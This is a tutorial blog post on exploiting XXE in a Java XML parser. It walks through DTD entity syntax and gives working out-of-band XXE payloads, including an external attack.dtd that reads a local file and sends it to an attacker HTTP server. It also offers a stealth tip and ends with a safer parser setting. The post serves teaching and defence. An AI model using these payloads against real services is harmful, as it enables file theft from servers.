 Title: XML exploits
Date: 2020-1-26 10:02
Modified: 2020-1-26 10:02
Category: misc
Tags: xml, exploitation, XXE, java
Slug: xmlexploits
Authors: F3real
Summary: How to exploit XML service


Parsers are always prone to the bugs and present one of the best attack surfaces for the exploitation. I was working on the service which takes XML input and performs some parsing, so I decided to check if and how exploitable it is.

Since I have access to the source, here is the snippet how the service handles XML:

~~~java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setIgnoringElementContentWhitespace(true);
factory.setNamespaceAware(true);
DocumentBuilder parser = factory.newDocumentBuilder();
....
input = parser.parse(recieved);
~~~

So there is just basic `DocumentBuilderFactory` with only some additional configuration. I initially assumed, and most people probably do the same, that since we just want to parse the XML file there should be no issues. 

Turns out this is very wrong, just parsing input using itself is dangerous. The `DocumentBuilder` is inherently unsafe if not configured properly. It works on the blacklist principle and allows by default a lot of unsafe options. I assume it is left like this due to backward compatibility with older code.

So let's take a look at how this setup could be exploited.

For the attacker server, I am just gonna use pythons simple HTTP server:

~~~text
python -m http.server 8000 --bind 127.0.0.1
~~~

One of the first tests we can do is check if the service will do a callback to our server if presented with a specially crafted XML.

~~~text
<?xml version="1.0"?>
    <!DOCTYPE doc [
      <!ENTITY % ent1 SYSTEM "http://127.0.0.1:8000/test">
      %ent1;
    ]>
~~~

If service is vulnerable we will see `test` resource being requested from our python server.

To better understand how this test works, we need to understand XML we sent.
In the XML, we are defining DTD (Document Type Definition).
The syntax for the internal DTD (one defined within XML document) is:

~~~text
<!DOCTYPE root_element [DTD]>
~~~

There are some rules we should follow (but parsers are usually forgiving):

* The document type declaration must be placed between the XML declaration and the first element (root element) in the document - well-formedness constraint.
* The keyword DOCTYPE must be followed by the name of the root element in the XML document - validity constraint.
* The keyword DOCTYPE must be in upper case

There are also external and combined DTD definitions, but we are not going to use them. For more information about DTD definitions you can take a look [here](https://www.quackit.com/xml/tutorial/dtd_doctype.cfm) or [here](https://xmlwriter.net/xml_guide/doctype_declaration.shtml).

Inside of DTD, we are a defining entity. Entities reference data that act as an abbreviation or can be found at an external location. They are used to reduce the entry of repetitive information and also allow for easier editing.

In DTD we are defining an external (parsed) parameter entity. Like all other parameter entities, they can be only used inside DTD.

The syntax for the internal parameter entity is:

~~~text
<!ENTITY % name SYSTEM "URI">
%name;
~~~

Basically, with this DTD we are telling parser to visit `URI` we provide to find definition for our parameter and replace `%name;` with its value. This in itself is not a big security issue but it is a necessary part of the other attacks.

We can achieve the same effect with:

~~~text
<?xml version="1.0"?>
    <!DOCTYPE doc [
      <!ELEMENT elm1 ANY >
      <!ENTITY ent1 SYSTEM "http://127.0.0.1:8000/test">
    ]>
    <elm1>&ent1;</elm1>
~~~

Here we use element type declarations to define a new element that may appear in the XML document. The syntax for the element is:

~~~text
<!ELEMENT name allowable_contents>
~~~

The keyword `ANY` just allows all types of content in the element. We also define an external (parsed) general entity. General entities can only replace text inside the XML document instance, not DTD. The syntax for external (parsed) entities is:

~~~text
<!ENTITY name SYSTEM "URI">
~~~

More information regarding entities can be found [here](https://xmlwriter.net/xml_guide/entity_declaration.shtml).

These types of attacks are called `XXE (XML External Entity)`.

For now, we have seen only how to get callback back from the XML parser. But this is not really useful. In my case of service I was testing, we don't get XML output back which complicates things. So we have to do `out-of-band` (OOB-XXE).

In case if service returns XML output, we can just do simpler `in-band` attack. I won't cover it here, but there are many resources available online.

So how we can get data? We have already seen that service will request the URL we provide, and this can be abused to get data back.

For testing, we will create the flag.txt file on C drive.

Our exploit:

~~~text
<?xml version="1.0"?>
    <!DOCTYPE doc [
      <!ELEMENT elm1 ANY >
      <!ENTITY % file SYSTEM "file:///flag.txt">
      <!ENTITY % ent1 SYSTEM "http://127.0.0.1:8000/attack.dtd">
      %ent1;
    ]>
    <elm1>&res;</elm1>
~~~

Attack.dtd:

~~~text
<!ENTITY % all "<!ENTITY res SYSTEM 'http://127.0.0.1:8000/%file;'>">
%all;
~~~

The exploit looks a bit more complicated than previous due to well-formedness constraint. In the internal DTD subset (which is quite strict), references to parameter entities are not allowed within markup declarations [1](https://www.w3.org/TR/xml/#wfc-PEinInternalSubset)[2](https://stackoverflow.com/questions/39549360/parameter-entities-in-internal-dtd)[3](https://stackoverflow.com/questions/30534260/are-parameter-entity-references-in-sgml-xml-parsible-using-net/30536075). We have to use an external DTD (separate file).

We also need to use a parameter entity to create an internal entity (which then can be used in markup) with content from our target file.

If the attack is successful, in our server log, we should see the content of flag.txt we created.

~~~text
Serving HTTP on 127.0.0.1 port 8000 (http://127.0.0.1:8000/) ...
127.0.0.1 - - [09/Feb/2020 17:20:58] "GET /attack.dtd HTTP/1.1" 200 -
127.0.0.1 - - [09/Feb/2020 17:20:58] code 404, message File not found
127.0.0.1 - - [09/Feb/2020 17:20:58] "GET /U%20got%20the%20flag! HTTP/1.1" 404 -
~~~

For additional stealth, we can also move the line:
~~~text
<!ENTITY % file SYSTEM "file:///flag.txt">
~~~
to attacker.dtd hiding the information about the file we are extracting.

There are also many other XML based attacks like `Billion laughs`, `Quadratic Blowup` etc, but I won't cover them here.

So as endnote, definitely double check security best practices when using parsers.

More secure parsing code:

~~~java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);  // <----- added
factory.setIgnoringElementContentWhitespace(true);
factory.setNamespaceAware(true);
DocumentBuilder parser = factory.newDocumentBuilder();
....
input = parser.parse(recieved);
~~~